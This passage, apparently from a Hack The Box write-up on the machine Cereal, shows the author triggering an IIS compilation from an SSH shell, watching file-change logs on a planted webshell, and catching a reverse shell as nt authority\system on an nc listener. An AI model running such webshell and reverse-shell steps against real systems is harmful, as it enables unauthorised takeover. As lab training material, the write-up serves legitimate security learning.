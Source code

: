 It says `NotStarted`, but that’s ok.

From the SSH shell, I’ll request the site. It takes a minute, but it comes back:

```

PS C:\inetpub\source\uploads> iwr http://127.0.0.1:8080 -UseBasicParsing
StatusCode        : 200
StatusDescription : OK 
...[snip]...

```

While it’s waiting, status lines start printing on the webshell shell:

```

The file 'App_Web_3u0g0msp.0.cs' was Changed at 05/30/2021 12:45:21
Current trig: 0 by 'App_Web_3u0g0msp.0.cs'
The file 'App_Web_3u0g0msp.1.cs' was Changed at 05/30/2021 12:45:21
The file 'App_Web_3u0g0msp.0.cs' was Changed at 05/30/2021 12:45:22
The file 'App_Web_3u0g0msp.0.cs' was Changed at 05/30/2021 12:45:22
The file 'App_Web_u0qkgrng.0.cs' was Changed at 05/30/2021 12:45:36
The file 'App_Web_u0qkgrng.1.cs' was Changed at 05/30/2021 12:45:36
The file 'App_Web_y2w2ry3y.0.cs' was Changed at 05/30/2021 12:45:37
The file 'App_Web_y2w2ry3y.1.cs' was Changed at 05/30/2021 12:45:37
The file 'App_Web_y2w2ry3y.2.cs' was Changed at 05/30/2021 12:45:37

```

When it completes, there’s a callback at my `nc`:

```

oxdf@parrot$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.217] 49791
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> whoami
nt authority\system

```

[« HTB: Cereal](/2021/05/29/htb-cereal.html)